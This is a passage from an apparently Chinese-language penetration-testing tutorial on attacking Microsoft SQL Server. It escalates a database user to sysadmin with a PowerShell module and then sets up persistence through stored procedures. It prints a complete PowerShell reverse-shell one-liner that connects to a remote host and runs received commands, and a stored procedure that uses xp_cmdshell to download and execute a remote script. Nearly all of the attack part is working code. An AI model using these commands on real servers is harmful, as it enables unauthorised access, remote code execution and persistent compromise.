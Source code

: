 ```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser raj -SqlPass Password@1 -SqlServerInstance WIN-P83OS778EQK\SQLEXPRESS
```

调用 [Powershellery](https://github.com/nullbind/Powershellery/) 项目的 SqlServer-Escalate-DbOwner 模块提升权限

```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser test -SqlPass admin -SqlServerInstance '192.168.3.137,1433'
```

成功升级为 sysadmin 权限  
![image.png](assets/1706232584-7864860508ee3d55eb444366323d18fb.png)  
也可使用 msf 中的模块提升权限，这里不再赘述。

# 使用存储过程进行权限维持

使用 matser 数据库

```php
USE master
GO
```

这里假设 xp\_cmdshell 已被开启，选择使用 nishang 中的 Invoke-PowerShellTcpOneLine.ps1 脚本进行反弹 shell

```php
$client = New-Object System.Net.Sockets.TCPClient("192.168.3.130",6666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

创建存储过程 powershell 远程调用脚本

```php
CREATE PROCEDURE test_sp
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(\"http://192.168.3.133:8081/Invoke-PowerShellTcpOneLine.ps1\")"'
GO
```
